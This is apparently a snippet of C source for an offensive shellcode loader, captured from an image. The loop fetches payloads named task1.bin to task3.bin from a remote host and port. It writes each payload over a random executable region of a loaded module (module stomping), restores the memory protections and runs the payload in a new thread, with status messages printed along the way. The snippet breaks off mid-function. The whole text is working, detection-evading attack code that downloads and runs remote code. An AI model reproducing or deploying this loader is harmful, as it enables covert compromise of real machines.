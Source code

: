 ```c
 while (true) {

        const char* tasks[3] = {"task1.bin", "task2.bin", "task3.bin"};
        
        DATA task = getFilelessData(host, port, tasks[i]);
        i++;

        if (i == 3) i = 0;

        if (!task.data) {
            printf("[-] Failed in retrieving shellcode (%u)\n", GetLastError());
            return -1;
        }

        printf("[+] Shellcode retrieved %p sized %d bytes\n", task.data, task.len);

        LPVOID RXspot = getRandomRXspot(moduleName, task.len);

        if (RXspot != NULL) {
            DWORD oldprotect = 0;
            if (!VirtualProtect((char*)RXspot, task.len, PAGE_READWRITE, &oldprotect)) {
                printf("[-] Failed in VirtualProtect 1 (%u)\n", GetLastError());
                return -1;
            }

            RtlMoveMemory(RXspot, task.data, task.len);
            // Zero out the retrieved shellcode
            ZeroMemory(task.data, task.len);

            // restore previous memory protection settings
            if (!VirtualProtect((char*)RXspot, task.len, oldprotect, &oldprotect)) {
                printf("[-] Failed in VirtualProtect 2 (%u)\n", GetLastError());
                return -1;
            }

            printf("[+] Stomped region starting : %p\n", RXspot);


            // Replace that with a Threadless execution , WaitForSingleObject ....
            HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)RXspot, NULL, 0, 0);

            printf("[+] Thread Executing Shellcode TID : %d\n\n", GetThreadId(hThread));

            if (!hThread) {
                printf("[-] Failed in CreateThread (%u)\n", GetLastError());
                return -1;
            }

            WaitForSingleObject(hThread, INFINITE);

            printf("[+] Reverting Stomped %s \n", moduleName);
            
            
            HMODULE hModule = GetModuleHandleA(moduleName);

            if (hModule == NULL) {
                printf("[-] Module is not loaded.\n");
                return -1;
            }

            if (FreeLibrary(hModule)) {
                printf("[+] Successfully unloaded the module.\n");

```
